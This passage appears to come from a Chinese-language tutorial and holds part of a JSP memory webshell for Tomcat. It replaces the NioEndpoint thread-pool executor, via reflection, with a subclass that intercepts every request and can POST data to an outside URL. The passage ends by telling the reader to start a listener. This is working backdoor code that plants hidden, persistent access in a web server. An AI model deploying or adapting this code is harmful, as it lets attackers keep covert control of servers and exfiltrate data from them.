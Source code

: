```bash
                }
            } catch (Exception ignored) {}
        }

        private boolean sendPostRequest(String urlString, byte[] data) {
            try {
                URL url = new URL(urlString);
                HttpURLConnection connection = (HttpURLConnection) url.openConnection();
                connection.setRequestMethod("POST");
                connection.setDoOutput(true);
                connection.setRequestProperty("Content-Type", "application/octet-stream");
                connection.setRequestProperty("Content-Length", String.valueOf(data.length));
                try (OutputStream outputStream = connection.getOutputStream()) {
                    outputStream.write(data);
                    outputStream.flush();
                    int responseCode = connection.getResponseCode();
                    return responseCode == HttpURLConnection.HTTP_OK;
                } catch (Exception ignored){
                    return false;
                }
            } catch (IOException ignored) {
                return false;
            }
        }

        @Override
        public void execute(Runnable command) {
            getRequest(command);
            this.execute(command, 0L, TimeUnit.MILLISECONDS);
        }
    }
%>

<%
    NioEndpoint nioEndpoint = (NioEndpoint) getStandardService();
    ThreadPoolExecutor exec = (ThreadPoolExecutor) getField(nioEndpoint, "executor");
    threadexcutor exe = new threadexcutor(exec.getCorePoolSize(), exec.getMaximumPoolSize(), exec.getKeepAliveTime(TimeUnit.MILLISECONDS), TimeUnit.MILLISECONDS, exec.getQueue(), exec.getThreadFactory(), exec.getRejectedExecutionHandler());
    nioEndpoint.setExecutor(exe);
%>
```

先开启监听：
